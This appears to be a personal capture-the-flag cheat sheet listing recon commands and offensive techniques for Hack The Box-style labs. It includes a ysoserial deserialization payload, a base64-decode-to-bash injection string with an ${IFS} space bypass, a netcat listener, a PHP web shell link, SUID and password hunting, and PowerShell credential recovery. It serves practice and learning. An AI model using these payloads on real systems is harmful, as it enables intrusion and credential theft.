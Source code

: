 # Notes that include various things I've found useful in some ctfs. 
## Tools

Subdomain enumeration 


* GoBuster - good for DNS searchers. Always use the -t 1000 switch while on VPN
* DirSearch - Quick for directory searches 
* FFuF - doesn't work that well on HTB vpns


nmap
* Service Version all with output to note. 
```
sudo nmap -sV -A host -oN host-nmap.txt
```
* Regular scan for a quick scan
```
nmap -p- host
```
* udp scan -T4 + agression -vv verbose
```
nmap -sU -T4 -vv
```
Serliaze a command (this case a ping) to a .des file to eventually turn into b64 
```
java -jar ysoserial-all.jar CommonsBeanutils1 'ping 10.10.14.11 -c 5' > ping.des 
```

Get the b64 payload 
```
base64 -w 0 ping.des > ping.b64 
```

Reading base64 payload then running in bash. 
```
;echo 'payload'|base64 -d|bash;
```

Find Permissions that you have - 
```
find / -type f -perm -u=s 2>/dev/null
```

Find Password in Derby.dat (ofbiz)
```
grep -arin -o -E '(\w+\W+){0,5}password(\W+\w+){0,5}' .
```

Sign in as admin
```
su root
```	
Make bash script executable 
```
chmod +x filename.sh
```
See if you can run anything that normally requires sudo with current account
```
sudo -l
```

White [space] in commands
```
${IFS}
```
		
Basic Netcat listener 
```
nc -lvnp 4444
```
	
Basic http.server to fetch with
```
python3 -m http.server
```	
PhP shell, save as .phar file or other php varients. 
```
https://github.com/flozz/p0wny-shell
```
SNMPWalk - Gather info from SNMP. v2c specifies snmp version -c specifies a specific string you're looking for
```
snmpwalk -v2c -c string domain 
snmpwalk -c <community_string> -v2c <OID>
```
	
Basic SQLmap on a domain 
```
sqlmap -u "vulndomain" --batch 
```
Fetching password in windows using powershell 
```
echo PASSWORD > pass.txt
$EncryptedString = Get-Content .\pass.txt
$SecureString = ConvertTo-SecureString $EncryptedString
$Credential = New-Object System.Management.Automation.PSCredential -ArgumentList "username",$SecureString
echo $Credential.GetNetworkCredential().password
```

# Identification 
```
uname -a
```
```
cat /etc/os-release
```
```
find / -name "filename.type"
```

***Look at some word lists that include/actuator***

# Tips N Tricks

***Always try default credentials***

When using the cookie, use the intercept mode and do it one by one for each authentication in Burp. There is a way to configure it where it will automatically use it, somewhere. Haven't figured that part out. 

When doing downloads, use intercept and see if you can do directory traversal or fetch other files than what you're looking to downloads



# Good Resources 

GTFOBins
	https://gtfobins.github.io/

Hack Tricks
	https://book.hacktricks.xyz/network-services-pentesting/pentesting-snmp?source=post_page-----cc2d7b64da35--------------------------------
